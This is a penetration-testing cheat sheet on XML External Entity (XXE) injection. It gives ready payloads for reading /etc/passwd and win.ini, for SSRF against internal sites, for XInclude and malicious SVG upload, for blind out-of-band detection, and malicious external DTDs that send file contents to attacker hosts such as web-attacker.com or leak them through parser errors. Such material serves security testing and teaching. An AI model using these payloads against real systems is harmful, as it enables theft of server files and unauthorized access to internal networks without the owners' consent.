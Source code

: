 # XXE (XML External Entity)

## XXE to retrieve files

{% code title="Normal XML" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
{% endcode %}

{% tabs %}
{% tab title="#1" %}
This XXE payload defines an external entity **\&xxe;** whose value is the contents of the **/etc/passwd** file and uses the entity within the value of the **productId**.

{% hint style="info" %}
Windows payload: `file:///c:/windows/win.ini`
{% endhint %}

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
{% endtab %}

{% tab title="#2" %}
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```
{% endtab %}
{% endtabs %}

### Tips

* With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to **test each data node in the XML individually**, by making use of your defined entity and seeing whether it appears within the response. Example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <productName>Test</productName>
    <productPrice>12</procductPrice>
</stockCheck>
```

* Remember to change wrappers. [Here](../inclusion-lfi-rfi-traversal/php-wrappers.md#wrappers) is a complete list. The **php://filter** wrapper with **base64** encoding can be very useful.

## Exploiting XXE to perform SSRF attacks

Apart from the recovery of sensitive data, the other main effect of XXE attacks is that they can be used to perform server-side request forgery (SSRF).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal-website.com/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal-website.com/"> ]>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal-website.com/secret"> ]>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal-website.com/secret/admin"> ]>
```

## XXE through a modified content type

Most POST requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

You could then submit the next application, with the same result:

```
POST /action HTTP/1.0Content-Type: text/xmlContent-Length: 52

<?xml version="1.0" encoding="UTF-8"?>
<foo>bar</foo>
```

If the application tolerates requests that contain XML in the message body, and parses the body content as XML, then it can get to the hidden XXE attack surface by simply reformatting the requests to use XML format.

## XXE through file upload

Some applications allow users to upload files that are then processed on the server. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats such as DOCX and image formats such as SVG.

For example, an application may allow users to upload images and process or validate them on the server after uploading. Even if the application expects to receive a format such as PNG or JPEG, the image processing library being used might support SVG images. Since the SVG format uses XML, an attacker can submit a malicious SVG image and thus reach a hidden attack surface for XXE vulnerabilities.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-in-exotic-files" %}

## XInclude attack

Some applications receive the data sent by the client, embed it on the server side in an XML document and then parse the document. An example of this occurs when the data sent by the client is placed in a back-end SOAP request, which is then processed by the back-end SOAP service.

In this situation, you cannot perform a classic XXE attack, because you do not control the entire XML document and therefore cannot define or modify a DOCTYPE element. However, you could use XInclude instead. XInclude is a part of the XML specification that allows you to build an XML document from subdocuments. You can place an XInclude attack inside any data value in an XML document, so the attack can be performed in situations where you only control a single data element that is placed in a server-side XML document.

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Blind XXE (Detection)

You can detect blind XXEs using the same technique as for SSRF XXE attacks, but by triggering out-of-band network interaction to a system that you control:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Sometimes XXE attacks using regular entities are blocked. In this situation, you can use XML parameter entities instead. XML parameter entities are a special type of XML entity that can only be referenced elsewhere in the DTD. You need to know the following:

* The declaration of an XML parametric entity includes the percent character before the entity name.
* Parameter entities are referenced using the percent character instead of the usual ampersand.

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2gkax.web-attacker.com"> %xxe; ]>
```

## Blind XXE (Exfiltration)

### Normal

After detecting a blind XXE vulnerability, the attacker must host a malicious DTD on a system he controls, and then invoke the external DTD from the in-band XXE payload:

{% code title="malicious.dtd" %}
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```
{% endcode %}

{% hint style="danger" %}
The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver.
{% endhint %}

{% code title="Payload" %}
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
{% endcode %}

### Via error messages <a href="#exploiting-blind-xxe-to-retrieve-data-via-error-messages" id="exploiting-blind-xxe-to-retrieve-data-via-error-messages"></a>

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

So, for this case, we will only need a web server that hosts the following malicious DTD:

{% code title="malicious.dtd" %}
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
{% endcode %}

